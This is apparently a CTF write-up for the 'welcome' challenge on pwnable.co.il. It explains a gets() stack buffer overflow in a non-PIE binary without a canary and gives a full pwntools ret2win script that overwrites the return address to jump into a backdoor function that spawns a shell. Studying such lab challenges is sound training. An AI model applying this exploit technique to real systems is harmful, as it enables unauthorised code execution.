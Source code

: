 ```yaml
---
title: "pwnable.co.il - welcome"
classes: wide
header:
  teaser: /assets/images/ctf-writeups/pwnable.co.il/logo.png
ribbon: green
description: "simple ret2win challenge."
categories:
  - CTF Writeups
  - pwn
---
```


> Challenge description:
>
> Welcome to Pwnable.co.il!
> I hope you'll like this one...

### Protections:
<pre>    Arch:       amd64-64-little
    RELRO:      <font color="#FFBC51">Partial RELRO</font>
    Stack:      <font color="#FF3C3C">No canary found</font>
    NX:         <font color="#49FF6D">NX enabled</font>
    PIE:        <font color="#FF3C3C">No PIE (0x400000)</font>
    Stripped:   <font color="#FF3C3C">No</font>
</pre>

Let's start by extracting the ELF file from the zip and analyzing it with the Hex-Rays decompiler:
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char name[32]; // [rsp+0h] [rbp-20h] BYREF

  init_buffering(argc, argv, envp);
  puts("Welcome to pwnable.co.il!");
  puts("What is your name?");
  gets(name);
  printf("Thank you %s!\n", name);
  return 1;
}
```
We can easily see the vuln, the program uses the function `gets()`,
this gives us a buffer overflow (a.k.a BOF) primitive, so we can overwrite stack data beyond the `name` buffer, including the saved return address of the function itself.

According to to the protections, the program also lacks a `stack canary` and is not `PIE`, 
so overwriting the return address with gadgets or functions from the program and even building a ROP chain is a good approach.

### Functions symbols list:
[![static symbols](/assets/images/ctf-writeups/pwnable.co.il/welcome/symbols.png)](/assets/images/ctf-writeups/pwnable.co.il/welcome/symbols.png)
From the static symbol list we found an interesting function called `secret_backdoor`, so let’s examine it.

[![secret_backdoor function dump](/assets/images/ctf-writeups/pwnable.co.il/welcome/secret_backdoor_func.png)](/assets/images/ctf-writeups/pwnable.co.il/welcome/secret_backdoor_func.png)
This function is acttually a `win()` function, when called it invokes `system("/bin/sh")` which spawns a shell immediately. 
That makes calling `secret_backdoor` a straightforward path to code execution, so lets try it!



## payload
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './welcome')

### config ###
host = args.HOST or 'pwnable.co.il'
port = int(args.PORT or 9000)

### defines ###
PADDING = 40

### gadgets ###
ret = 0x000000000040076c

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

def main():
    ### run ###
    io = start()

    ### payload ###
    payload = cyclic(PADDING)
    payload += p64(ret)
    payload += p64(exe.sym.secret_backdoor)

    io.sendline(payload)
    
    io.interactive()

if __name__ == "__main__":
    main()
```
